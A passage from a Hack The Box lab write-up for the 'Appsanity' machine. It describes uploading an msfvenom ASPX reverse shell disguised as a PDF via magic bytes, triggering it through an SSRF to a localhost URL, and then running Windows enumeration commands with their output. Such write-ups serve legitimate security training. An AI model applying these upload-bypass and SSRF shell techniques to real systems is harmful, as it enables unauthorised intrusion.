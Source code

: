 ![appsanity6](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/fa010592-1853-4b3e-86bf-1b8d4f49c2c6)

Upload any pdf you chose and intercept the request, keep the pdf magic bytes and remove the rest. Copy the msfvenom shell and change the filename and set an aspx extension, forward the request and let the upload finish.

![appsanity7](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/3fabf175-e43d-4b60-ba0b-accc3924d0b6)

To execute the shell, navigate to the "issue prescriptions" site, in the prescription link try an ssrf attack. Enter the url `http://127.0.0.1:8080` to view the medical reports, in the output you can view the path of the uploaded reports. 
```markdown
.../ViewReport.aspx?file=f6673d08-592a-44a3-a863-da678b74e0b4_document.aspx
```
To execute the aspx shell, use the ssrf vulnerability pointing to the uploaded shell.
```markdown
http://127.0.0.1:8080/ViewReport.aspx?file=f6673d08-592a-44a3-a863-da678b74e0b4_document.aspx
```
A reverse shell is received.

![appsanity8](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/e63f7d1e-58cb-4d47-bcd0-45ae87945d3d)

Using this reverse shell we can get the user flag.

### PHASE 3: System
Enumerate the user.
```markdown
whoami
appsanity\svc_exampanel
```
Enumerate the system.
```markdown
> systeminfo

Host Name:                 APPSANITY
OS Name:                   Microsoft Windows 10 Pro
OS Version:                10.0.19045 N/A Build 19045
System Type:               x64-based PC
```
Enumerate the system local users.
```markdown
> net user

User accounts for \\APPSANITY

-------------------------------------------------------------------------------
Administrator            DefaultAccount           devdoc                   
Guest                    svc_exampanel            svc_meddigi              
svc_meddigiportal        WDAGUtilityAccount       
The command completed successfully.
```
Rremember there was a 5985 service open, check who is using it.
```markdown
> net localgroup "remote management users"

Alias name     remote management users
Comment        Members of this group can access WMI resources over management protocols (such as WS-Management via the Windows Remote Management service). This applies only to WMI namespaces that grant access to the user.

Members
-------------------------------------------------------------------------------
devdoc

The command completed successfully.
```